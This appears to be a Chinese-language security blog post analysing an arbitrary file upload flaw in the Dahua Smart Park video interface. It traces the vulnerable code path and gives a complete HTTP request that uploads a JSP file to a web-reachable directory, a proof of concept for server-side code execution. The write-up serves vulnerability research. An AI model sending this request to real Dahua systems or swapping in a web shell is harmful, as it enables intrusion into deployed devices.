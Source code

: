 ```yaml
---
title: 大华智慧园区video接口存在任意文件上传漏洞
date: 2024-11-20 17:23:00 +0800
img_path: /
categories: [肾透, 漏洞利用]
tags: [肾透, 漏洞利用]     

---
```


## 一、大华智慧园区video接口存在任意文件上传漏洞

### 漏洞接口

```java
com.dahua.cardsolution.controller.publishing.MaterialController#addVideoFile()
```

### 漏洞触发流程

```java
MaterialController#addVideoFile()
	-> this.materialService.addVideoFile(materialFile)
		-> this.fileManageService.sendFile(directory, fileName, videoFile.getContent())
			-> FileUtil.writeBytes(sourceBytes, filePath, fileName)
```

![image-20241120123457908](assets/image-20241120123457908.png)

在`addVideoFile`中会获取上传文件的名字和内容然后进入`fileManageService.sendFile()`方法

![image-20241120123557596](assets/image-20241120123557596.png)

`sendFile()`会进入`FileUtil.writeBytes()`将文件写入服务器。

![image-20241120124237790](assets/image-20241120124237790.png)

写入路径是`/opt/ftp/publishingImg/VIDEO/xxxx`。

![image-20241120124142967](assets/image-20241120124142967.png)

但是可以看到其实`webapps/publishingImg`是链接到`/opt/ftp/publishingImg`所以是可以访问到的。

![image-20241120124500782](assets/image-20241120124500782.png)

```http
POST /publishing/publishing/material/file/video HTTP/1.1
Host: 10.30.100.144
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarys7AsdKmiEBicMGLb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Length: 1970

------WebKitFormBoundarys7AsdKmiEBicMGLb
Content-Disposition: form-data; name="Filedata"; filename="11.jsp"

<% out.println("Hello"); %>
------WebKitFormBoundarys7AsdKmiEBicMGLb--

```

![image-20241120114707047](assets/image-20241120114707047.png)

路径: `/publishingImg/VIDEO/241120131714121215.jsp`

![image-20241120123400183](assets/image-20241120123400183.png)

### 